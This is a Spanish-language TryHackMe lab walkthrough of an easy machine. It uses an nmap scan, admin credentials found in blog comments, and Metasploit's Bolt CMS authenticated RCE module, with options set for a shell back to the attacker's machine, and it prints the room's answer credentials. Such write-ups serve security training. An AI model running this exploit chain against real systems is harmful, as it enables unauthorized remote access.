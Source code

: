 Bienvenidos a otra sala de TryHackMe. Esta vez, tendremos una maquina con dificultad facil, haremos una breve inspeccion para obtener las credenciales y haremos uso de #Metasploit utilizando la vulnerabilidad #RCE (Remote Code Execution), Esta vulnerabilidad ocurre cuando un atacante puede ejecutar codigo en un sistema remoto de forma no autorizada, para luego,  obtener nuestra flag.

# Recon

Iniciamos nuestro reconocimiento como siempre con nuestra herramienta **nmap** para que nos muestre puertos abiertos, versiones del servicio, entre otras cosas!. Ejecutaremos : ``sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap``

Tendremos un escaneo bastante volatil, pero nos centraremos en esta informacion :
```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.22s latency).
Scanned at 2023-04-26 18:09:02 EDT for 44s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
8000/tcp open  http    syn-ack ttl 63 (PHP 7.2.32-1)
```

Nuestro escaneo nos muestra 3 puertos abiertos. Navegaremos al puerto 8000 que nos llevara a un blog. Haremos un reconocimiento en la pagina, y nos daremos cuenta que utiliza **bolt** como CMS. Tambien, podremos ver comentarios de **Jake** (ADMIN), en el cual, nos mostrara las credenciales que usaremos mas adelante para entrar en el sistema.

# Exploit

Como sabemos que la pagina tiene **bolt** ,como CMS, iniciaremos nuestro #Metasploit y buscaremos vulneralidades llamadas **bolt**, ya que no sabremos que version esta utilizando.

> `msfconsole` --> Abrimos #Metasploit 
> `search bolt` --> Buscamos vulnerabilidad

```ruby
msf6 > search bolt

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
   1  exploit/multi/http/bolt_file_upload         2015-08-17       excellent  Yes    CMS Bolt File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/bolt_file_upload
```

Seleccionaremos la  vulnerabilidad #RCE para esta tarea, modificaremos los siguientes patrones y lo ejecutaremos para abrir una terminal no autorizada de forma remota en el sistema. 

Seleccionamos con `use 0` y veremos las opciones a configurar utilizando `show options`

```ruby
RHOSTS 'IPTARGET'
RPORT '8000'
USERNAME 'credenciales'
PASSWORD 'credenciales'
LHOST 'Ip maquina atacante'
```

Lo ejecutaremos con `run` y ya tendremos acceso al sistema para reclamar la flag!

#  Respuestas

#credentials bolt:boltadmin123
